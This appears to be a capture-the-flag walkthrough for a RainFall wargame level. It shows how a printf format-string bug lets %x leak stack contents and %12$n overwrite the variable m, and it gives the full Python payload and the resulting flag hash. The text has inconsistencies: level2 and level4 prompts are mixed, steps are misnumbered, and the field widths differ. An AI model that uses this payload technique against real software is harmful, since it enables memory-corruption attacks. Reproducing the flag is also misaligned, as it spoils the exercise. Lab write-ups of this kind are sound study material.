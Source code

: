 # Walkthrough

**Main** : 
Exploiting a vulnerability in `printf` to change the value of a variable  `m` 
To tell `printf` to write the number of characters printed to a specified address, you can use the `%n` format specifier. However, to specify the address, you need to use the `%[number]$n` modifier. 
This modifier takes an argument specifying the position of the address on the stack. 
 The format string vulnerability allows  to modify the value at the specified address.

**Process**:  
> 1.  Found the address of the variable `m` using  debugging tools. 
> 2. Find  buffer  position on the stack.
>2.  Create the Payload, the payload will consist of multiple components:    
    -   Padding to reach the position on the stack where `%n` is expected.
    -   The format specifier `%[number]$n`, where `[number]` 
    -  Inject the Payload,  provide the payload as input to the program, which will then be used by `printf` to construct the output. 



##  The address of the variable `m` using GDB
```
level2@RainFall:~$ gdb ./level2 
...
(gdb) p &m
$1 = (<data variable, no debug info> *) 0x8049810
(gdb) 

````


##  Position of a buffer on the stack
We ging to use printf to fnd the position of buffe on the stack
By using the %x format string vulnerability to print memory address on the stack I give printf the follow string `aaaaaa %x ...` the %x it telling to printf to print memory content <br/>
Buffer content `aaaa` is at the 12th position `61616161`.


```
level4@RainFall:~$ python -c 'print "aaaa" + " %x" * 13' | ./level4 
aaaa b7ff26b0 bffff784 b7fd0ff4 0 0 bffff748 804848d bffff540 200 b7fd1ac0 b7ff37d0 61616161 20782520
```



## Payload


The modifier %n will write the number of bytes specified in the choosen address.  
Creates a format string attack that aims to modify a variable using the %n  
The  `%12$n`  specifier tells printf to treat the argument at the 12th position as an address to write the number of characters printed


**2. load payload** 

The modifier `%d` can  specify the field width  that : `%16930116d`.
```
`python -c 'print "\x10\x98\x04\x08" + "%16930112d%12$n"' | ./level4`

...
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a

```
